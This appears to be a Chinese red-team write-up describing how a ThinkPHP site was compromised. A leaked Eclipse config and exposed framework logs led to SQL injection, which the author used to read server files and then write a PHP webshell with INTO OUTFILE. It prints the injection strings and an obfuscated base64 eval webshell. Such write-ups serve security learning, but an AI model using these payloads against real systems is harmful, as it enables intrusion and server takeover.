# 奇安信攻防社区 -【Web 实战】记一次日志泄露到 GetShell

### 【Web 实战】记一次日志泄露到 GetShell

在一次攻防演练中，遇到这么一个站点 该站点基于 ThinkPHP 框架开发，且存在日志泄露，故事就从这个日志泄露开始了 信息收集 1. 老话说的好，渗透的本质就是信息收集，而信息搜集整理为后续的情报...

在一次攻防演练中，遇到这么一个站点

该站点基于 ThinkPHP 框架开发，且存在日志泄露，故事就从这个日志泄露开始了

## **信息收集**

1\. 老话说的好，渗透的本质就是信息收集，而信息搜集整理为后续的情报跟进提供了强大的保证，进入该站点发现只有三个功能点，逐个进行查看



2\. 进入第一个功能点

。。。发现直接报 404，还有条狗看着家

3\. 进入第二、三个功能点，发现是一个注册表单，第三个也为 404



4\. 他写三个难道就只有三个功能嘛？我不信，开扫！

敏感文件这不就来了嘛

5.通过目录扫描发现该站点存在 eclipse 配置文件泄露

访问/.settings/org.eclipse.core.resources.prefs 获取到项目里的所有功能点



org.eclipse.core.resources.prefs 解释

org.eclipse.core.resources.prefs 文件其实就是规定项目内的文件的编码用的。一般来说一个项目里的文件编码需要一致，特别是文件文本内容本身无法指示文件本身编码的（比较绕，XML 文件第一行能指示自身编码，CSS 也有这个能力但用得不多），尽量不要多种编码同时存在（最好在编码规范中禁止多重编码同时存在的现象发生）

[Eclipse 中.setting 目录下文件介绍](https://www.cnblogs.com/shihaiming/p/5803957.html)

6.该站点基于 ThinkPHP 框架开发，上工具跑出日志泄露



该工具下载地址：

[https://github.com/Lotus6/ThinkphpGUI](https://github.com/Lotus6/ThinkphpGUI)

## **进行测试**

挨个访问功能页面

有两个上传点，尝试上传

发现 403 了...



7.逛完一圈发现后台路径被改，文件上传 403，功能都改了或者删掉了

没头绪。。。

去翻翻日志吧。。。

喔唷~这是啥，这不是我前台测试时打的单引号嘛

日志中居然存在 Sql 执行语句



8.Sql 语句记录到日志中，并发现 Sql 语句报错信息，语句闭合为 )

这时候就可以靠 ThinkPHP 日志泄露 + Sql 注入打一个组合拳了，以后谁还敢说 ThinkPHP 日志泄露没危害的！





9.开始着重对该功能进行测试

因为该功能点有验证码，便对其进行手测，成功获取到 MariaDB 数据的版本信息，与权限信息

10.开始读文件，可是没有物理路径咋办呢，那就找！

在目录扫描的时候存在一个 demo 目录，这不就有了吗

11.为啥要读文件呢，因为查权限就没那个必要，还浪费时间，能读就能写。

尝试读取 win.ini，跟本地 win.ini 做对比，发现成功读取到 win.ini



12.可是接下来头又痛了，使用 order by 判断表列数不回显，且日志不记录 Sql 语句，有验证码又懒得构造盲注语句了。

  
那咋办？只能掏笨方法了

13\. 先用 union select 尝试写一下文件看看报什么错

**The used SELECT statements have a different number of columns**

提示列数不同，也就是我写的列数不对，继续测试

14\. 直接手动判断列数写文件，最终在第 9 列成功写入文件  
从  
`1) union select 1 into outfile 'xxx\/reg\/upload\/1.php' --+` 

到  
`1) union select 1,2,3,4,5,6,7,8，'1' into outfile 'xxx\/reg\/upload\/1.php' --+`



## **写入 Webshell**

15.

构造语句：

`1) union select 1,2,3,4,5,6,7,8,from_base64('PD9waHAgZXZhbChnenVuY29tcHJlc3MoYmFzZTY0X2RlY29kZSgnZUp4TExVdk0wVkNKRC9BUERvbFdUODVOVVkvVnRBWUFSUVVHT0E9PScpKSk7Pz4=') into outfile 'xxxx\/reg\/upload\/7fa0b347c86e45522a1d6606731002c9.php' --+`

成功获取到 Webshell，到后面发现，那条安全狗根本就没用~.~



当然不建议各位用这个笨方法，因为有些表的列数特别多  
好几十条，还是得先判断的  
结束，拿 Shell 收工！
